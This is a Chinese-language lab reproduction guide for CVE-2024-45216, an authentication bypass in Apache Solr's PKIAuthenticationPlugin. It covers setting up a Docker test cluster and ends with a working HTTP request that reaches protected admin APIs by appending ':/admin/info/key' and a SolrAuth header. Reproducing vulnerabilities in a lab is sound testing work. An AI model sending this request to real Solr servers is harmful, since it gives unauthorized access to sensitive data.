




# Apache Solr身份验证绕过（CVE-2024-45216）

Apache Solr 身份认证绕过漏洞(CVE-2024-45216)，该漏洞存在于Apache Solr的PKIAuthenticationPlugin中，该插件在启用Solr身份验证时默认启用。攻击者可以利用在任何Solr API URL路径末尾添加假结尾的方式，绕过身份验证访问任意路由，从而获取敏感数据或进行其他恶意操作。

## 测试环境

执行如下命令启动一个Solr 9.6.0的集群：

```
docker compose up -d
```

之后`docker ps`查看name为solr1e的容器，进入该容器执行

```
solr zk cp /var/solr/data/security.json zk:/security.json -z zoo1:2181,zoo2:2181,zoo3:2181
```



访问8983端口，在Security中发现Block anonymous requests被勾选上则说明环境配置完成。（如未勾选则手动勾选一下）



> 上述配置是为了增加Solr的接口鉴权，如无上述操作，则可直接访问接口得到数据。无法体会到该身份验证绕过漏洞的差异性。

## 漏洞复现

正常访问`/solr/admin/info/properties`提示401无权限访问



但是当在正常路径后面加上一个无需授权即可访问的key接口：`:/admin/info/key`，即可未授权访问到接口内容。

现在我们可以访问 Solr 上的任何 API，而无需进行身份验证。

```http
GET /solr/admin/info/properties:/admin/info/key HTTP/1.1
Host: 127.0.0.1:8983
SolrAuth: wi1kwegam4a
```

